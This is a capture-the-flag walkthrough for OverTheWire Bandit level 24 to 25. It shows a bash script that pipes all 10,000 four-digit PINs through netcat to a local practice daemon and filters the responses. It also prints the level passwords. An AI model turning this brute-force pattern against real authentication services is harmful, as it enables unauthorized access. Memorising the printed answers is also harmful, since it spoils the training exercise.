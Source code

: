 ## Overview

In this level, we are tasked with brute-forcing a 4-digit pincode to retrieve the password for Bandit Level 25. A daemon is running on port 30002 and requires us to enter the password for Bandit Level 24 and the secret pincode. The correct pincode is hidden among 10,000 possible combinations, and we need to automate the process of trying all combinations to find the correct one.

---

## A little bit of Theory

In this level, we use concepts from previous levels, such as **grep** (Level 6), **netcat** (Level 15/Level 21), and basic **bash scripting**. Specifically, we use a **for-loop** in bash to iterate over the range of possible pin codes.

The syntax for a **for-loop** in bash is:

```bash
for var in 1 2 ... N
do
    #something
done
```

If we want to loop over a range, we can use `{0..10}` to specify the range. To ensure every number has two digits, we can use `{00..10}`.

---

## Solution

### Step 1: Connect to the daemon

First, we connect to the daemon using **netcat** to see the prompt and the response it gives:

```bash
bandit24@bandit:~$ nc localhost 30002
```

### Output:

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000 
Wrong! Please enter the correct pincode. Try again.
```

We observe that the daemon responds with `Wrong! Please enter the correct pincode. Try again.` when the pincode is incorrect. This will be useful for filtering the correct pincode later.

### Step 2: Create the brute-force script

Since manually brute-forcing the 10,000 combinations would be tedious, we write a bash script to automate the process. The script iterates over all 4-digit combinations and appends them to a file, which is then sent to the daemon:

```bash
#!/bin/bash

for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```

### Step 3: Save and execute the script

We save the script in a temporary directory and make it executable:

```bash
bandit24@bandit:~$ mktemp -d
/tmp/tmp.3YQNHtW1Uu
bandit24@bandit:~$ cd /tmp/tmp.3YQNHtW1Uu
bandit24@bandit:/tmp/tmp.3YQNHtW1Uu$ nano brute_force_pin.sh
bandit24@bandit:/tmp/tmp.3YQNHtW1Uu$ chmod +x brute_force_pin.sh
```

Next, we run the script:

```bash
bandit24@bandit:/tmp/tmp.3YQNHtW1Uu$ ./brute_force_pin.sh
```

### Step 4: Check the output

After running the script, we check if the two files were created (`possibilities.txt` and `result.txt`):

```bash
bandit24@bandit:/tmp/tmp.3YQNHtW1Uu$ ls
brute_force_pin.sh  possibilities.txt  result.txt
```

The `result.txt` file contains the output from the daemon. We now filter the response to find the correct pincode by excluding the lines containing "Wrong!" using **grep**:

```bash
bandit24@bandit:/tmp/tmp.3YQNHtW1Uu$ sort result.txt | grep -v "Wrong!"
```

### Output:

```
Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

The password for **Bandit Level 25** is:

`iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

---

## Official Level Link

[Bandit Level 25](https://overthewire.org/wargames/bandit/bandit25.html)
